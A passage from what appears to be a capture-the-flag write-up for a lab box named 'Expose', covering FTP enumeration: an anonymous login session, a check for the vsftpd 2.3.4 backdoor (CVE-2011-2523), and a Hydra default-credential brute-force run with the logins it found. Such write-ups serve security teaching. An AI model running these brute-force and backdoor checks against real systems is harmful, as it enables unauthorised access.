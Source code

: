 
Also the open ports of the web server and mqtt service are also not standart I think

### FTP

We can login anonymously but the directory is empty
```
$ ftp 10.10.166.212
Connected to 10.10.166.212.
220 Welcome to the Expose Web Challenge.
Name (10.10.166.212:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||53412|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> pwd
Remote directory: /
ftp>
```

However the FTP version is interesting. vsftpd 2.0.8 or later. We can test if it is vulnerable to a backdoor with an Nmap Script

```
ftp-vsftpd-backdoor

Tests for the presence of the vsFTPd 2.3.4 backdoor reported on 2011-07-04 (CVE-2011-2523). This script attempts to exploit the backdoor using the innocuous id command by default, but that can be changed with the exploit.cmd or ftp-vsftpd-backdoor.cmd script arguments
```
It is not vulnerable to this.

**Other default credentials exits but the directory is still empty**
```
$ hydra -C ~/Desktop/SecLists-master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://10.10.166.212
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-23 18:45:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking ftp://10.10.166.212:21/
[21][ftp] host: 10.10.166.212   login: anonymous   password: anonymous
[21][ftp] host: 10.10.166.212   login: ftp   password: b1uRR3
[21][ftp] host: 10.10.166.212   login: ftp   password: ftp
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-23 18:45:53

```
